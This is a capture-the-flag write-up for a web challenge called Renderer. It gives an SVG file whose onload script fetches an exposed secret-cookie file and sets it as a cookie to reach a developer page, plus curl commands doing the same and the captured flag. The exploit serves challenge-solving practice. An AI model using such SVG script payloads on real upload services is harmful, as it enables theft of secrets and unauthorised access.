 # Renderer (535 solves)
## Description:
>Author: NoobMaster

>Introducing Renderer! A free-to-use app to render your images!

## Attachments:
[chall.zip](https://github.com/trxvorr/Writeups/blob/main/scriptCTF/Web/Renderer/chall.zip)

## Solution:
Created a svg payload to upload (ask AI for details):
```xml
<?xml version="1.0" standalone="no"?>
<svg xmlns="http://www.w3.org/2000/svg" width="200" height="200"
     onload="(async()=>{try{const r=await fetch('/static/uploads/secrets/secret_cookie.txt',{cache:'no-store'});const t=(await r.text()).trim();document.cookie='developer_secret_cookie='+t+'; path=/'; top.location='/developer';}catch(e){alert(e)}})()">
  <text x="10" y="20">Renderer exploit</text>
</svg>
```
Then upload it and get the flag.

```shell
# Replace $URL with your challenge URL (e.g., http://<host>:<port>)
TOKEN=$(curl -s "$URL/static/uploads/secrets/secret_cookie.txt")
curl -s -H "Cookie: developer_secret_cookie=$TOKEN" "$URL/developer"
# scriptCTF{my_c00k135_4r3_n0t_s4f3!_9bc4aface5d4}
```

